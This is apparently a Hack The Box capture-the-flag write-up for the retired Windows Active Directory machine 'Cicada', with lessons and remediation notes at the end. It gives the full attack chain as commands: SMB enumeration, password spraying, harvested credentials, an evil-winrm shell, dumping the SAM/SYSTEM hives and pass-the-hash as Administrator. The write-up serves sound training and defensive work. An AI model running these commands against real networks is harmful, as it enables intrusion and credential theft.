








# Cicada — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Guest SMB enumeration, AD description-field credential leak, password spraying, `SeBackupPrivilege` abuse |

---

## TL;DR

Cicada is a beginner-friendly AD chain: a guest SMB session reveals an
onboarding notice with a default domain password, spraying that password
finds a valid account, that account's enumeration rights leak a second
password stored in a user's AD description field, and a PowerShell backup
script on a DEV share leaks a third credential. The final account holds
`SeBackupPrivilege`, which lets me dump the SAM/SYSTEM hives directly and
extract the Administrator's NTLM hash.

---

## Recon

```bash
nmap -sC -sV 10.129.231.149
```



Results: Kerberos (88), RPC (135), LDAP (389), SMB (445), WinRM (5985).

### SMB enumeration

Checked what a guest connection could see:

```bash
crackmapexec smb 10.129.231.149 -u guest -p '' --shares
```



An `HR` share showed up with **READ** access for guest.

---

## Initial Access

### Default password

The `HR` share held a `Notice from HR.txt` file:

```bash
smbclient //10.129.231.149/HR -U guest
ls
get "Notice from HR.txt"
```



The notice contained a default password new employees are told to use.

### Building a user list and spraying

Used `netexec`'s RID-brute feature to enumerate domain users anonymously:

```bash
netexec smb 10.129.231.149 -u 'guest' -p '' --rid-brute
```



Sprayed the default password from the HR notice across the recovered
usernames:

```bash
crackmapexec smb 10.129.231.149 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```


`michael.wrightson` was still using the default password.

### Description-field leak

Michael's account didn't have share access, but it could enumerate other
domain users:

```bash
crackmapexec smb 10.129.231.149 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```


`david.orelious` had saved their password directly in their AD
**description** field ("Just in case I forget my password is...") — a
surprisingly common real-world habit.

---

## Foothold

With David's credentials, checked what shares opened up and found `DEV`
readable:

```bash
smbclient -L //10.129.231.149 -N
smbclient //10.129.231.149/DEV -U david.orelious
```



`Backup_script.ps1` contained hardcoded credentials for another account,
`emily.oscars`. WinRM (5985) was open, so that credential turned straight
into a shell:

```bash
evil-winrm -i 10.129.231.149 -u emily.oscars -p '<RECOVERED_PASSWORD>'
```

User flag retrieved from Emily's desktop.

---

## Privilege Escalation

Checked what privileges the account already had:

```powershell
whoami /priv
```



`SeBackupPrivilege` — typically given to service or backup accounts. It
bypasses normal file permissions for backup operations, which means it
also grants read access to protected files like the `SAM` and `SYSTEM`
registry hives:

- `SAM` holds local account and group data, including hashed passwords.
- `SYSTEM` holds the boot key needed to decrypt those hashes.

```powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
download sam
download system
```



With both files locally, extracted every NTLM hash with Impacket:

```bash
impacket-secretsdump -sam sam -system system local
```



Used the Administrator hash directly with Evil-WinRM (pass-the-hash):

```bash
evil-winrm -i 10.129.231.149 -u Administrator -H <NTLM_HASH>
```

Rooted, and read the flag from
`C:\Users\Administrator\Desktop\root.txt`.

---

## Lessons Learned

- A "default password" mentioned in an onboarding document is a real
  credential to try — check for these before assuming a share is a dead
  end.
- AD **description fields** are free-text and readable by any account
  that can enumerate users — a surprisingly common place to find leftover
  passwords.
- Scripts on shared drives (`Backup_script.ps1` here) routinely have
  hardcoded credentials baked in for automation convenience.
- `SeBackupPrivilege` on a non-admin account is a direct path to
  SAM/SYSTEM and full credential extraction — always check `whoami /priv`
  after landing a shell.

---

## Remediation

- Never put credentials in onboarding documents on a share reachable by
  guest/anonymous accounts.
- Audit AD description fields for stored secrets as part of routine
  hygiene.
- Remove hardcoded credentials from automation scripts; use a credential
  vault or managed service accounts.
- Restrict `SeBackupPrivilege`/`SeRestorePrivilege` to genuinely trusted
  backup operator accounts, and monitor for SAM/SYSTEM hive access.

---

## Tools used

- `nmap`
- `crackmapexec`, `netexec`
- `smbclient`
- `evil-winrm`
- Impacket (`secretsdump`)

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Cicada](https://www.hackthebox.com/machines/cicada)
